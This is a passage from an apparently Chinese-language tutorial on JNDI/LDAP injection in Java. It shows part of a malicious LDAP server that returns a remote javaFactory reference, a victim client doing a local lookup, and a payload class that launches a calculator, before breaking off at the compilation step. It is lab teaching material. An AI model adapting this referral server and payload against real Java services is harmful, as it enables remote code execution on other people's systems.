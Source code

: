 ```plain
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

3、客户端（LDAPClient.java）代码， 也是受害端

```plain
package jndi_ldap_injection;

import javax.naming.InitialContext;
import javax.naming.NamingException;


public class LDAPClient {
    public static void main(String[] args) throws NamingException{
        String url = "ldap://127.0.0.1:1234/Calculator";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }

}
```

4、HTTP 端恶意载荷（Calculator.java）代码

```plain
public class Calculator {
    public Calculator() throws Exception {
        Runtime.getRuntime().exec("gnome-calculator");
    }
}
```

#### 启动服务

1、将 HTTP 端恶意载荷 Calculator.java，编译成 Calculator.class 文件  
[![](assets/1711556038-bac920ff715a15bb1df1f2fbd0417b53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230308194745-0a67f242-bda7-1.png)
